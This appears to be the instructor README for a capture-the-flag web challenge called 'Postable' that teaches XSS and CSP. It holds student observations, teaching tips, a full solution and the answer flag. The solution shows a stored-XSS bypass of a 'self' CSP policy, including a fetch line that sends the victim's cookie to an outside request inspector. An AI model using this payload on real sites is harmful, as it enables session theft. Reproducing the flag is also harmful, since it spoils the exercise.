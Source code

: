 # Postable

## Purpose

Teach students about XSS and CSP.

## Notes

* Permalink/reporting buttons were overlooked for a while => didn't seem that important
* Noted presence of CSP via errors on console when trying `<script>alert(1)</script>`
* Didn't take report page text "Admin will be by to check on this" at face value
* Made button that would execute JS => wasn't clear that admin didn't click them
* Confusion over what inline JS is
* Accidentally put HTML containing script (inline JS) in the JS file they wanted to include as `script src`
* Put JS in func in separate file and called it via `body onload` => CSP violation still b/c `body onload` script is inline JS
* Forgot to click report button at the end

## Guidance

* Make it clear that login/registration is not part of the problem
* Remind students that every part of the app is needed for solving the problem
* If students are unclear about how report works, specify that the admin will visit the post and look at it, but not click anything
* Suggest that students should have console open to observe JS errors
* Have students understand the `self` CSP directive and consider where they could put JS that doesn't violate it
* Point students to request inspector tools on resources
* Remind students that they should be seeing pairs of requests for each JS they have - one for when it triggers when they visit the page and one for when the admin visits the page
* Remind students to click the report link at the end

## Solution

The site allows you to make text posts that get posted below the form on the
page.

NOTE: It is important that the competitor does not ignore any feature of the
site. The post submission form, permalink button, and report button all are
needed to solve the challenge.

A competitor should be able to quickly figure out that there is an stored XSS
vulnerability. Submitting something like `<h1>Hello</h1>` or such will have the
HTML rendered on the page. `<script>alert(1)</script>` will NOT produce a pop up
as it violates the CSP directive.

`Refused to execute inline script because it violates the following Content
Security Policy directive: "script-src 'self'".`

The competitor needs to understand that the `script-src 'self'` CSP directive
means that any JavaScript source must come from a file located on the same
host, but not at a different host and not as inline JavaScript. A "JavaScript
file" can be created on the host by making a post with only JavaScript code.
The JavaScript is just a fetch to a HTTP request inspector with the cookie
appended at the end.

```javascript
fetch("https://webhook.site/XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX/" + document.cookie);
```

We can get the path to this file from the permalink button on the post. Then
running arbitrary JavaScript is as easy as making another post with

```html
<script src="/permalink?post=XXXXXXXXXXXXXXXXXXXXXXXX"></script>
```

and then issuing a report on that post to the admin via the Report button. The
report button will cause an "admin" to come and look at the post, causing their
cookies to be sent to us.

The flag will be appended to the request path the request inspector receives.

## Flag

`CTF{creative-people-solve-crazy-security-problems}`
